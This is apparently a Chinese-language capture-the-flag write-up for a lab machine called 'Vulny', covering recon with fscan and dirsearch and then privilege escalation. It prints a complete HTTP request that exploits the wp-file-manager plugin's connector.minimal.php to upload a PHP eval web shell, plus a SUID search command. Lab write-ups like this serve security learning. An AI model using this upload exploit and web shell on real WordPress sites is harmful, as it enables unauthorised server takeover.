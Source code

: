 # Vulny

`fscan`扫描发现开放`80`端口和`33060`端口

访问`80`进入提示

> alexia, Your id_rsa is exposed, please move it!!!!! Im fighting regarding reverse shells! -nobody

使用`dirsearch`扫描到`secret`，提示

> Neither **/etc/wordpress/config-192.168.1.95.php** nor **/etc/wordpress/config-168.1.95.php** could be found.
> Ensure one of them exists, is readable by the webserver and contains the right password/username.

说明`wordpress`在`secret`目录下面，使用`dirsearch`继续扫

```bash
dirsearch -u http://192.168.1.95/secret/ -t 50
```

![](./img/Vulny-1.png)

发现了`wordpress`目录

`/secret/wp-content/`

![](./img/Vulny-2.png)

`/secret/wp-content/uploads/`

![](./img/Vulny-3.png)

在这里发现了一个`wp-file-manager-6.O`，构造数据包

```
POST /secret/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php HTTP/1.1
Host: 192.168.1.95
User-Agent: curl/7.88.1
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarya0abvsXYfhrraydm
Content-Length: 141

------WebKitFormBoundarya0abvsXYfhrraydm
Content-Disposition: form-data; name="cmd"

upload
------WebKitFormBoundarya0abvsXYfhrraydm
Content-Disposition: form-data; name="target"

l1_
------WebKitFormBoundarya0abvsXYfhrraydm
Content-Disposition: form-data; name="upload[]"; filename="1.php"
Content-Type: application/octet-stream

<?php @eval($_POST[1]);?>
------WebKitFormBoundarya0abvsXYfhrraydm--

```

![](./img/Vulny-4.png)

然后访问

```
http://192.168.1.95/secret/wp-content/plugins/wp-file-manager/lib/files/1.php
```

即可

![](./img/Vulny-5.png)

查看`suid`提权、`sudo -l`、`capabilities提权`都没找到能提权的，尝试查看之前数据库

```bash
$ find / -perm -4000 2>/dev/nul
```

![](./img/Vulny-6.png)

一直没找到密码，突然想到之前提示的`/etc/wordpress/config-192.168.1.95.php`

![](./img/Vulny-7.png)

![](./img/Vulny-8.png)

翻完了什么东西都没找到

![](./img/Vulny-9.png)

看别人wp说是这里有个奇怪的注释，我真没注意....

![](./img/Vulny-10.png)

然后登录`adrian`，这里我`su - adrian`一直提示我`Password: su: Authentication failure`，我先`反弹shell`，然后使用`flock`提权

![](./img/Vulny-11.png)